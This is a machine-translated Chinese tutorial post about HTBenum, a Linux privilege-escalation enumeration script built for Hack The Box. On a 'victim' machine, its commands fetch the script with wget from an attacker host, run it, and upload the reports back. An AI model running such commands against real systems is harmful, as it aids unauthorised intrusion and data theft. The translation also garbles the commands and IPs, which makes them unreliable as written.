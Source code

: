 # HTBenum:一个用于黑掉机器的 Linux 枚举脚本

> 原文：<https://kalilinuxtutorials.com/htbenum/>

[![HTBenum : A Linux Enumeration Script For Hack The Box](img/3e82b8c2519d0da44303347ae6d2455c.png "HTBenum : A Linux Enumeration Script For Hack The Box")](https://1.bp.blogspot.com/-uuLRctJl3E0/XpsVO_zsAuI/AAAAAAAAF9o/oLXsKYVStbELAVKSm-oA5nY2FDnm0N0CwCLcBGAsYHQ/s1600/Htbenum%25281%2529.png)

**HTBenum** 是一个用于黑掉机器的 Linux 枚举脚本。该脚本设计用于在 Linux 主机上无法访问互联网，并且希望运行枚举和漏洞利用建议脚本(如 Hack The Box)的情况。

当我在 Linux 机器上有了一个初步的立足点时，我发现自己也在运行一组类似的脚本，这个脚本有助于自动化下载每个枚举脚本的最新版本、使它可执行、运行它，以及将输出发送到一个文件供以后查看的过程。它还有一个内置的 web 服务器来托管工具并将报告上传回主机。

**特性**

*   5 种不同的枚举脚本，包括:
    *   [linux 智能枚举](https://github.com/diego-treitos/linux-smart-enumeration/)
    *   [LinEnum](https://github.com/rebootuser/LinEnum/)
    *   [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    *   上浮
    *   [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
*   2 种不同的漏洞利用建议工具，包括:
    *   [Linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    *   [LES: Linux 权限提升审计工具](https://github.com/mzet-/linux-exploit-suggester)
*   内置网络服务器，用于托管工具和上传完成的报告
*   自动工具下载和更新功能
*   自定义目录选项，用于当您知道自己有权访问特定目录时(默认为/tmp)
*   交互式菜单让您选择是只运行枚举，只运行 expoit 建议，还是两者都运行
*   检查 Python 2 和 3，并让您知道在 Python 缺失的情况下将跳过哪些脚本

**用途**

**。/htbenum.sh [-u] -i IP -p 端口[-o 目录] [-w] [-r]**

**示例:**
主机:root@kali:~/htbenum#。/htbenum.sh -u
主机:root@kali:~/htbenum#。/htb enum . sh-I 10 . 10 . 14 . 1-p 80-w
受害机:www-data@victim:/tmp$ wget http://10 . 10 . 14 . 1:80/htb enum . sh
受害机:www-data @ Victim:/tmp $ chmod+x ./htb enum . sh
受害机:www-data @ Victim:/tmp $。/htbenum . sh-I 10 . 10 . 14 . 1-p 80-r

**参数:**
-h-查看帮助和用法。
-I IP–用于上传和下载的监听 web 服务器的 IP 地址。
-p 端口–用于上传和下载的监听 web 服务器的 TCP 端口。
-o 目录——自定义下载和报表创建目录(默认为/tmp)。
-w–启动内置网络服务器下载文件和上传报告。
-u–更新到每个工具的最新版本，覆盖任何现有版本。
-r–将报告上传回主机 web 服务器(必须支持上传请求)。

**也读作-[rich kit:领域丰富工具包](https://github.com/SolomonSklash/htbenum)**

使用这个工具克隆 repo，并在本地机器上运行带有`**update**`参数的脚本。这将从互联网(Github)下载并更新所有需要的脚本，并将它们放在与`**htbenum.sh**`相同的目录中:

**root@kali:~#** git 克隆 https://github.com/SolomonSklash/htbenum
**root @ kali:~ #**CD htbenum
**root @ kali:~**/htbenum #。/htbenum.sh -u

**作者 solomonsklash–solomonsklash @ 0x feed . io**

**【I】更新所有工具…**
2019-11-25 17:54:55 网址:https://raw . githubusercontent . com/Diego-treitos/Linux-smart-enumeration/master/LSE . sh[31859/31859]-【网址

**root @ kali:~/htbenum #**

然后，启动内置 web 服务器来托管工具并接收完成的报告。服务器需要 Python 3。您可以使用自己的 web 服务器来托管工具，但是它需要支持报告上传的 PUT 请求。

**root@kali:~** /htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w

最后，将 htbenum.sh 脚本上传到您的目标机器，使其可执行，并使用您的主机的 IP 和端口运行它，并带有一个可选的目录用于下载文件和编写报告输出。您也可以选择将报告上传回主机。例如:

**www-data @ htb:/tmp $**wget http://10 . 10 . 99 . 100/htbenum . sh-O/tmp/htbenum . sh
www-data @ htb:/tmp $chmod+x ./htbenum . sh
www-data @ htb:/tmp $。/htbenum.sh -i 10.10.14.1 -p 80 -r

每个工具都会将其输出发送到与 htbenum.sh 脚本位于同一目录的报告文件中，或者发送到-d 参数指定的任何目录中。

[**Download**](https://github.com/SolomonSklash/htbenum)